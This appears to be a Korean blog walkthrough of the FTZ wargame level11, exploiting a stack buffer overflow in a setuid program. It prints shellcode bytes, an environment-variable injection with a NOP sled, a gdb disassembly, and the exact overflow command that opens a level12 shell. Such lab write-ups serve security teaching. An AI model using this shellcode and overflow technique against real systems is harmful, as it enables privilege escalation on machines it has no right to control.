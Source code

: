 ```yaml
---
title: "[FTZ] level11 풀이"
categories:
  - ftz
tags:
  - FTZ
toc: true
toc_sticky: true
toc_label: "level11 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/ftz.png
---
```


💡 FTZ level11 풀이
{: .notice--warning}


# 문제

계정 : level11/what!@#$?

**hint**
```
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}

```

# 풀이

bof 취약점이 존재한다. 쉘 코드를 작성하여 쉘 코드 주소로 ret 주소를 덮어 써서 권한을 탈취한다.

쉘 코드는 작성하는건 생략하고, 쉘코드는 다음과 같다.

```
\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x08\x40\x40\x40\xcd\x80
```

## 환경변수
쉘 코드를 환경변수에 등록하여 리턴 주소를 환경변수로 바꾸는 방법입니다. 환경 변수에 등록되면, 메모리 위치가 바뀌지 않는다는 장점이 있습니다.

1) 환경변수에 shell 코드 등록하기

```sh
[level11@ftz level11]$ export sh=$(python -c 'print("\x90"*10 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')
```

![image](https://user-images.githubusercontent.com/33647663/167302401-ee84a3d6-1b23-49a2-9645-c852c875921d.png)

2) 환경변수의 메모리 주소 알아내기

환경변수의 메모리 주소는 다음과 같이 코드를 작성하여 알아냅니다.

**env.c**

```c
#include <stdio.h>

int main(int argc, char* argv[]){
    char *addr;
    addr = (char*)getenv(argv[1]);
    printf("located at %p\n",addr);
    return 0;
}
```

```sh
[level11@ftz tmp]$ gcc -o env env.c
[level11@ftz tmp]$ ./env sh
located at 0xbfffff2f
```

3) bof 취약점을 이용하여 ret 주소 변경
   
```sh
[level11@ftz level11]$ gdb -q attackme
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   ebp
0x08048471 <main+1>:    mov    ebp,esp
0x08048473 <main+3>:    sub    esp,0x108
0x08048479 <main+9>:    sub    esp,0x8
0x0804847c <main+12>:   push   0xc14
0x08048481 <main+17>:   push   0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    esp,0x10
0x0804848e <main+30>:   sub    esp,0x8
0x08048491 <main+33>:   mov    eax,DWORD PTR [ebp+12]
0x08048494 <main+36>:   add    eax,0x4
0x08048497 <main+39>:   push   DWORD PTR [eax]
0x08048499 <main+41>:   lea    eax,[ebp-264]
0x0804849f <main+47>:   push   eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    esp,0x10
0x080484a8 <main+56>:   sub    esp,0xc
0x080484ab <main+59>:   lea    eax,[ebp-264]
0x080484b1 <main+65>:   push   eax
0x080484b2 <main+66>:   call   0x804833c <printf>
0x080484b7 <main+71>:   add    esp,0x10
0x080484ba <main+74>:   leave
0x080484bb <main+75>:   ret
0x080484bc <main+76>:   nop
0x080484bd <main+77>:   nop
0x080484be <main+78>:   nop
0x080484bf <main+79>:   nop
End of assembler dump.
(gdb)
```

스택의 구조는 다음과 같습니다.

```md
str 256 byte
dummy 8 byte
ebp 4 byte
ret 4 byte
```

따라서 268 바이트의 더미를 넣어주고, 환경변수의 주소를 넣어주면 됩니다.

```sh
[level11@ftz level11]$ ./attackme $(python -c 'print("A"*268+"\x2f\xff\xff\xbf")')
sh-2.05b$ id
uid=3092(level12) gid=3091(level11) groups=3091(level11)
sh-2.05b$
```

